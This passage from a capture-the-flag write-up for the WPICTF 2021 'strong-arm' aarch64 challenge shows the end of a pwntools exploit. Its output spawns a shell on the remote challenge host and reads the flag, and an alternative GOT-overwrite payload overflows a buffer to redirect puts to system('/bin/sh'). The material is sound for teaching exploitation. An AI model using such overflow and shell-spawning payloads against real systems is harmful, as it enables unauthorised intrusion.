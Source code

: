 ```python
p.sendlineafter('> ',payload)
for i in range(3): p.recvline()
p.interactive()
```

The rest of this just follows the _Exploit Walkthrough_ from above and should be fairly straightforward.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/wpictf2021/strong-arm/arm'
    Arch:     aarch64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/wpictf2021/strong-arm/libc-2.23.so'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.104.14.64 on port 54732: Done
[*] libc.address: 0x4000836000
[*] Switching to interactive mode
$ cat flag.txt
WPI{a1ARM3d_arM315}
```


## Exploit GOT-overwrite

Replace the payload above with:

```python
payload  = b''
payload += 128 * b'A'
payload += p64(binary.got.puts-0x10-0x08)
payload += p64(0x400678)
payload += b'\n'
payload += b'/bin/sh\0'
payload += p64(libc.sym.system)
```

This sets `x29` as the base of a stack frame in the GOT 24 bytes above the `puts` GOT entry, then sets `x30` as the `gets` in `vulnerable`:

```assembly
  400678:       910043a0        add     x0, x29, #0x10
  40067c:       97ffffb1        bl      400540 <gets@plt>
  400680:       90000000        adrp    x0, 400000 <_init-0x4a0>
  400684:       911e8000        add     x0, x0, #0x7a0
  400688:       97ffffa2        bl      400510 <puts@plt>
  40068c:       910043a0        add     x0, x29, #0x10
  400690:       97ffffa0        bl      400510 <puts@plt>
```
